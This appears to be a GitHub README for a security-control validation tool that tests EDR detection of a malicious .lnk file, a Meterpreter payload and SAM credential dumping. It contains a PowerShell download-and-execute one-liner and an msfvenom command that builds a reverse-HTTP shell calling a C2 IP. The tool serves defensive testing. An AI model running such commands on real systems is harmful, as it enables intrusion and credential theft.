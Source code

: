 # ResponseValidation
```
                                                                                               @@@
                                                                                             @@@ @ @@@@
                                                                                           @@@ @ @@@ @
                                                                                        @@@@ @@@@ @  @@@
                                                                                     /@@@ @@@@  @@@@@ @
                                                                                  #@@. @@@@ @@@@@ &@
                                                                               @@@@@@@@  @@@   @@@@@@&
                                                                            @@@@@@@@@@@@  @@@@@@ @@
                                                                         @@@@@@@@@@@@@@@@   @@@@@@
                                                                      @@@@@@@@@@@@@ %@@@@@   @@
                                                  @@               @@@@    @@@@@@@@   @@@@@@@.@
                                             @@@@ @@@@          @@@@       @@@@@@@@      @@
                                          @@@     @@@@@@      @@@@       @@@@@@@@@@@@  @
                                       @@@@            @@@   @@@       @@@@@@@@@@@@@@ @
                                       @@               @@@ @@@       @@@@@@@  @@@@
                                        @@              @@@@@@      @@@@@@@@@@  @@
                                         @@              @@@@      @@@@@@@@@@@@
                                          @(          /@@@        @@@@@    @
                                          @@       @@@@          @@@@@@@@ @
                                          @ @@@@@@@#             /@@@@@@@
                                        @@@@@@@                    @@@@ @
                                      @  @@@@@                       @@@@
                                    @  @@@@             @@/            @@@@@@
                                   @ %@@ @@  @@@@@@@@,   @@         ,@@@@@@@@@@@@@@@@@@@@@@@@@@@
                                    @ @@         @@@@@  @@@@@@@@@@@  ,@@@@@@@@@@@@,@@% ,@@@@@@@
                                     @           @@@@@ @@                  &@@& @@  @@@@@@
                                                @@@@@@@*
                                               @@@ @@
                                            @@   @
    TRIFIDENT                           @@ @@@@@
Security Validation Tests v0.1              @
```

# DO NOT RUN WITHOUT EXPRESSED CONSENT FROM TRIFIDENT
To execute, simply run the following command from a machine with PowerShell installed (Windows / MacOS)
```
Invoke-Expression (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/TRIFIDENT/ResponseValidation/main/RunTests.ps1").Content
```

## What does this Tool Do?
Runs a series of validation checks on the local machine to serve as proof-points for our assessment and are based on the identification of implemented security controls, where we attempt to validate these controls are working as intended. This is not a penetration test, rather a validation that security controls are working properly, and where possible, to test incident communications between providers and response times.

The Following test will be performed:

## Validate EDR Detection and Response:
### T1204.002 : User Execution: Malicious File

> Defanged malicious .lnk file
> Generated by RedCanary as part of the Atomic Red Team framework. All code available for review on their Github Page [Link].  Trifident has reviewed the resulting putty and confirmed it is non-malicious.
> 	
> LNK files are based on the Shell Link Binary file format, also known as Windows shortcuts. But what seems a relatively simple ability to execute other binaries on the system can inflict great harm when abused by threat actors. Microsoft’s decision to block macros by default for files downloaded from the internet in Office applications provoked malware developers to shift to other techniques. 
> 
> This test downloads a crafted .lnk file from github, and then attempts to execute it. When executed, the .lnk file attempts to download a clean copy of Putty (a windows based ssh client) as “a.exe” and attempts to execute it. 
> 
> Expected Outcome: EDR detects, alerts, and quarantines the LNK file, however Putty still executes.


### T1204.002 : User Execution: Malicious File
> Defanged Malware: Meterpreter
>  
> Generated by Trifident, using the following command: 
> msfvenom -p windows/meterpreter_reverse_http LHOST=172.174.245.183 LPORT=9191 HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe
> 
> Meterpreter is a Metasploit attack payload that provides an interactive shell to the attacker from which to explore the target machine and execute code. Meterpreter is deployed using in-memory DLL injection. As a result, Meterpreter resides entirely in memory and writes nothing to disk. It communicates over the stager socket and provides a comprehensive client-side Ruby API. It features command history, tab completion, channels, and more.
> 
> Shell.exe attempts to shovel a meterpreter shell from the host machine to a Trifident owned C2 server over HTTP (port 9191) located in Azure at the IP address of 172.174.245.183.  The C2 meterpreter listener is disabled by default on our C2 server. If execution succeeds, the C2 channel will not be established. If you would like to validate the C2 server is non-operational prior to execution, you can perform the following test:
> nmap -p 9191 172.174.245.183
> *Note: Other ports may be open as this C2 server is used for multiple engagements.
> 
> Expected Outcome: SentinelOne detects, alerts, and quarantines shell.exe without execution.


### T1003.002 : OS Credential Dumping: Security Account Manager
> This test uses the LOLbin “reg” (more info) to attempt to dump the SAM registry hive to a temp file location. This technique is known by attackers to retrieve password hashes and key material. 
> 
> Expected Outcome: SentinelOne detects, alerts, and prevents execution.

### Capture notification evidence
> The script will note the time each test was executed. Please take screenshots of any emails, phone calls, text messages, or any other contact method used by the MSSP vendor. 
> For any tickets that are opened, assigned, or you are notified of, please respond indicating that this was as a result of ongoing security testing, and that the ticket can be closed. 

### Clean Up
> All files downloaded, installed, or created by this script will be automatically removed at completion


